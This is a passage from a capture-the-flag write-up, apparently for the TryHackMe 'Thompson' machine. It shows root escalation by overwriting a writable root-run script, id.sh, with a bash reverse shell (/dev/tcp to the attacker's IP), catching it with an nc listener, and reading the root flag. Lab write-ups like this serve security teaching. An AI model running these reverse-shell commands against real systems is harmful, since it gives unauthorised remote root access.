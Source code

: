 After viewing `id.sh`, I found that it pipes the output of `id` command to a file called `test.txt` in the same directory (with root permissions of course).

I can write to this file, and get a reverse shell as root!

``` bash
tomcat@ubuntu:/home/jack$ echo "bash -i >& /dev/tcp/10.17.0.212/6666 0>&1" > id.sh                          
<cho "bash -i >& /dev/tcp/10.17.0.212/6666 0>&1" > id.sh                     
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
bash -i >& /dev/tcp/10.17.0.212/6666 0>&1
tomcat@ubuntu:/home/jack$ 
```

Then I started a listener on my machine using `nc`, I was able to get a connection:

``` bash
┌──(kali㉿kali)-[~/Desktop/THM/Thompson]
└─$ nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.17.0.212] from (UNKNOWN) [10.10.202.226] 54036
bash: cannot set terminal process group (17945): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack# id
id
uid=0(root) gid=0(root) groups=0(root)
```

From there, we can grab the root flag:

``` bash
root@ubuntu:~# cat root.txt
cat root.txt
[REDACTED]
```

## References

1. [Tomcat - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)
